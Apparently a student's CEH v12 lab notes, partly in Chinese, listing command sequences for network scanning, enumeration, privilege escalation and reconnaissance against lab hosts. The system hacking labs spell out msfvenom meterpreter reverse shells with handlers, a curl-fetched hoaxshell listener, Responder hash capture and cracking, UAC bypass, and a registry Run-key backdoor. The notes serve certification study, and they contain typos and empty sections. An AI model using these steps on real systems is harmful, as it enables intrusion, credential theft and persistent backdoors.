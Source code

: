 ### Module 3 Scanning Networks

<details>
  <summary>Lab 1 Perform Host Discovery</summary>

  ```console
  Tesk 1 Perrot
  nmap -sn -PR 10.10.10.3-254
  nmap -sn -PU 10.10.10.3-254
  nmap -sn -PE 10.10.10.3-254
  nmap -sn -PP 10.10.10.3-254
  nmap -sn -PM 10.10.10.3-254
  nmap -sn -PS 10.10.10.3-254
  nmap -sn -PA 10.10.10.3-254
  nmap -sn -PO 10.10.10.3-254
  ``` 
</details>

<details>
  <summary>Lab 2 Perform Port and Service Discovery</summary>

  ```console
  Task 1 Perrot znmap
  nmap -sT -v 10.10.1.22
  nmap -sS -v 10.10.1.22
  nmap -sX -v 10.10.1.22
  nmap -sM -v 10.10.1.22
  nmap -sA -v 10.10.1.22
  nmap -sU -v 10.10.1.22
  nmap -sN -T4 -A -v 10.10.1.9
  nmap -sl -v
  nmap -sY -v
  nmap -sZ -v
  nmap -sV
  nmap -A (-O -sV -sC --traceroute)
  ```
</details>

<details>
  <summary>Lab 3 Perform OS Discovery</summary>

  ```console
  Task 1 Perrot
  nmap -A 10.10.1.22
  nmap -O 10.10.1.22
  nmap --script smb-os-discovery.nse 10.10.1.22
  ```
</details>

<details>
  <summary>Lab 4 Scan beyond IDS and Firewall</summary>

  ```console
  Task 1 Perrot
  cd
  nmap -f 10.10.1.11
  nmap -g 80 10.10.1.11
  nmap -mtu 8 10.10.1.11
  nmap -D RND:10.10.1.11
  nmap -sT -Pn --spoof-mac 0 10.10.1.11
  ```
</details>

<details>
  <summary>Lab 5 Perform Network Scanning using Various Scanning Tools</summary>

  ```console
  Task 1 Perrot
  msfconsole
  nmap -Pn -sS -A -oX Test 10.10.1.0/24
  search portscan
  use auxiliary/scanner/portscan/syn
  set INTERFACE eth0
  set PORTS 80
  set RHOSTS 10.10.1.5-23
  set THREADS 50
  run
  use auxiliary/scanner/portscan/tcp
  show options
  set RHOSTS 10.10.1.22
  run
  back
  use auxiliary/scanner/smb/smb_version
  set RHOSTS 10.10.1.5-23
  set THREADS 11
  run
  ```
</details>

### Module 4 Enumeration

<details>
  <summary>Lab 1 Perform NetBIOS Enumeration</summary>

  ```console
  Task 1 windows
  nbtstat -a 10.10.1.11
  nbtstat -c
  net use
  ```
</details>

<details>
  <summary>Lab 2 Perform SNMP Enumeration</summary>

  ```console
  snmpwalk -v1 -c public 10.10.1.22
    -v：（1 or 2c or 3）
  snmpwalk -v2c -c public 10.10.1.22
  ```
</details>

<details>
  <summary>Lab 3 Perform LDAP Enumeration</summary>
</details>

<details>
  <summary>Lab 4 Perform NFS Enumeration</summary>

  ```console
  Task 1 Perrot
  nmap -p 2049 10.10.1.19
  cd SuperEnum
  echo "10.10.1.19" >> Target.txt
  ./superenum
    if error chmod +x superenum
  cd RPCScan/
  python3 rpc-scan.py 10.10.1.19 --rpc
  ```
</details>

<details>
  <summary>Lab 5 Perform DNS Enumeration</summary>

  ```console
  Task 1 Perrot
  dig ns www.certifiedhacker.com
  dig @ns1.bluehost.com. www.certifiedhacker.com axfr

  windows
  nslookup
  set querytype=soa
  certifiedhacker.com
  ls -d ns1.bluehost.com
  ```
</details>

<details>
  <summary>Lab 6 Perform SMTP Enumeration</summary>

  ```console
  Task 1 Perrot
  nmap -p25 --script=smtp-enum-users 10.10.1.19
  nmap -p25 --script=smtp-open-relay 10.10.1.19
  nmap -p25 --script=smtp-commands 10.10.1.19
  ```
</details>

<details>
  <summary>Lab 7 Perform Enumeration using Various Enumeration Tools</summary>
</details>

### Module 5 Vulnerability Analysis

<details>
  <summary>Lab 1 Perform Vulnerability Research with Vulnerability Scoring Systems and Databases</summary>
</details>

<details>
  <summary>Lab 2 Perform Vulnerability Assessment using Various Vulnerability Assessment Tools</summary>
</details>

### Module 6 System Hacking

<details>
  <summary>Lab 1 Gain Access to the System</summary>
  
  ```console
  Task 1 Perrot
  sudo responder -I eth0

  windows
  連結\\ceh-tools

  perrot
  複製hash製作hash.txt
  pluma hash.txt
  john hash.txt
  ```
  ```console
  Task 2 Perrot
  docker run -d -p 80:80 reverse_shell_generator
  打開瀏覽器 http://localhost/
  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.1.13 LPORT=4444 -f exe -o reverse.exe
  msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/rverse_tcp; set lhost 10.10.1.13; set lport 4444; exploit"
  將reverse.exe複製到windows執行
  getuid
  複製網站HoaxShell儲存為shell.ps1
  pluma shell.ps1
  sudo python3 -c "$(curl -s https://raw.githubsercontent.com/t313machus/hoaxshell/main/revshells/hoaxshell-listener.py)" -t ps-iex -p 444

  windows
  cd C:\Users\Admin\Desktop\
  .\shell.ps1

  perrot
  whoami
  ```
  ```console
  Task 3 執行程式
  ```
</details>

<details>
  <summary>Lab 2 Perform Privilege Escalation to Gain Higher Privileges</summary>

  ```console
  Task 1 Perrot
  cd
  msfvenom -p windows/meterpretr/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/Windows.exe
    mkdir /var/www/html/share
    chmod -R 755 /var/www/html/share
    chown -R www-data:www-data /var /www/html/share
  cp /home/attacker/Desktop/Windows.exe /var/www/html/share/
  service apache2 start

  msconsole
  use exploit/multi/handler
  set payload windows/meterpreter/reverse_tcp
  set lhost 10.10.1.13
  set lport 444
  run

  windows連線http://10.10.1.13/share下載Windows.exe並執行

  perrot
  sysinfo
  getuid
  background
  search bypassuac
  use exploit/windows/local/bypassuac_fodhelper
  set session 1
  show options
  set LHOST 10.10.1.13
  set TARGET 0
  exploit
  getsystem -t 1
  getuid
  background
  use post/windows/manage/sticky_keys
  sessions -i*
  set session 2
  exploit

  windows
  whoami
  ```
</details>

<details>
  <summary>Lab 3 Maintain Remote Access and Hide Malicious Activites</summary>

  ```console
  Task 1 執行工具
  ```
  ```console
  Task 2 Perrot
  cd
  msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/Test.exe
  msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport 4444 -f exe > /home/attacker/Desktop/registry.exe
    mkdir /var/www/html/share
    chmod -R 755 /var/www/html/share
    chmod -R www-data:www-data /var/www/html/share
    
  cp /home/attacker/Desktop/Test.exe /var/www/html/share/
  cp /home/attacker/Desktop/registry.exe /var/www/html/share/
  service apache2 start
  msfconsole
  use exploit/multi/handler
  set payload windows/meterpreter/reverse_tcp
  set lhost 10.10.1.13
  set lport 444
  run

  windows開啟http://10.10.1.13/share下載執行Test.exe

  perrot
  getuid
  background
  use exploit/windows/local/bypassuac_silentcleanup
  set session 1
  show options
  set LHOST 10.10.1.13
  set TARGET 0
  exploit
  getsystem -t 1
  getuid
  shell
  reg add HKLM\Software\Microsoft\Windows\CurrenVersion\Run /v backdoor /t REG_EXPAND_SZ /d "C:\Users\Admin\Downloads\registry.exe"

  開其他視窗
  msfconsole
  use exploit/multi/handler
  set payload windows/meterpreter/reverse_tcp
  set lhost 10.10.1.13
  set lport 4444
  exploit

  重啟windows

  getuid
  ```
</details>

<details>
  <summary>Lab 4 Clear Logs to Hide the Evidence of Compromise</summary>
</details>

<details>
  <summary>Lab 5 Perform Active Directory (AD) Attacks Using Various Tools</summary>
</details>

























# 以下v12待整理
<details>
  <summary>Lab 4</summary>

  ```console
  Task 1 windows
  ping www.certifiedhacker.com
  ping www.certifiedhacker.com -f -l 1500
  ping www.certifiedhacker.com -f -l 1300
  ping www.certifiedhacker.com -f -l 1473
  ping www.certifiedhacker.com -f -l 1472
  ping www.certifiedhacker.com -i 3
  ping www.certifiedhacker.com -i 2 -n 1
  ping www.certifiedhacker.com -i 3 -n 1
  ping www.certifiedhacker.com -i 4 -n 1
  ```
  ```console
  Task 2 Parrot
  cd Photon
  python3 photon.py -h
  python3 photon.py -u http://www.certifiedhacker.com

  python3 photon.py -u http://www.certifiedhacker.com -l 3 -t 200 --wayback
  ```
  ![Double-click external.txt]()
  ```console
  Task 3
  [Central Ops](https://centralops.net/co/)
  ```
  ```console
  Task 6 Parrot
  cd GRecon
  python3 grecon.py
  certifiedhacker.com
  ```
  ```console
  Task 7 Parrot
  cewl -d 2 -m 5 www.certifiedhacker.com
  cewl -w wordlist.txt -d 2 -m 5 www.certifiedhacker.com
  pluma wordlist.txt
  cewl --help
  ```
</details>

<details>
  <summary>Lab 6</summary>

  ```console
  [Whois Lookup](https://whois.domaintools.com)
  ```
</details>

<details>
  <summary>Lab 7</summary>

  ```console
  Task 1 windows
  nslookup
  set type=a
  www.certifiedhacker.com
  set type=cname
  certifiedhacker.com
  set type=a
  ns1.bluehost.com
  [nslookup](https://www.kloth.net/services/nslookup.php)
  ```
  ```console
  Task 2 Perrot
  [you get signal](https://www.yougetsignal.com)
  cd dnsrecon
  chmod +x ./dsnrecon.py
  ./dnsrecon.py -r 162.241.216.0-162.241.216.255
  ```
  ```console
  Task 3
  [SecurityTrails](https://securitytrails.com)
  ```
</details>

<details>
  <summary>Lab 8</summary>

  ```console
  Task 1
  [arin](https://www.arin.net/about/welcome/region)
  ```
  ```console
  Task 2 windows
  tracert www.certifiedhacker.com
  tracert /?
  tracert -h 5 www.certifiedhacker.com

  Perrot
  traceroute www.certifiedhacker.com
  ```
</details>

<details>
  <summary>Lab 9</summary>

  ```console
  Task 1 Perrot
  cd
  recon-ng
  help
  marketplace install all
  modules search
  workspaces
  workspaces create CEH
  workspaces list
  db insert domains
  show domains
  modules load brute
  modules load recon/domains-hosts/brute_hosts
  run

  back
  modules load recon/domains-hosts/bing_domain_web
  run

  modules load reverse_resolve
  modules load recon/hosts-hosts/reverse_resolve
  run
  show hosts
  back

  modules load reporting/html
  options set FILENAME /home/attacker/Desktop/results.html
  options set CREATOR Jason
  options set CUSTOMER Certifiedhacker Networks
  run
  打開桌面results.html

  cd
  recon-ng
  workspaces create reconnaissance
  modules load recon/domains-contacts/whois_pocs
  options set SOURCE facebook.com
  run
  back
  modules load recon/profiles-profiles/namechk
  options set SOURCE MarkZuckerberg
  run
  back
  modules load reporting/html
  options set FILENAME /home/attacker/Desktop/Reconnaissance.html
  options set CREATOR Jason
  options set CUSTOMER Mark Zuckerberg
  run
  打開桌面Reconnaissance.html

  cd
  recon-ng
  modules load recon/domains-hosts/hackertarget
  options set SOURCE certifiedhacker.com
  run
  ```
  ```console
  Task 2 Perrot
  sudo maltego
  ```
  ```console
  Task 3 Perrot
  cd
  domainfy -n eccouncil -t all
  searchfy -q "Tim Cook"
  ```
  ```console
  Task 5 Perrot
  cd BillCipher
  python3 billcipher.py
  website
  www.certifiedhacker.com
  1、4、6、8、9
  yes
  website
  www.certifiedhacker.com
  19
  no
  打開資料夾BillCipher index.html
  ```
</details>

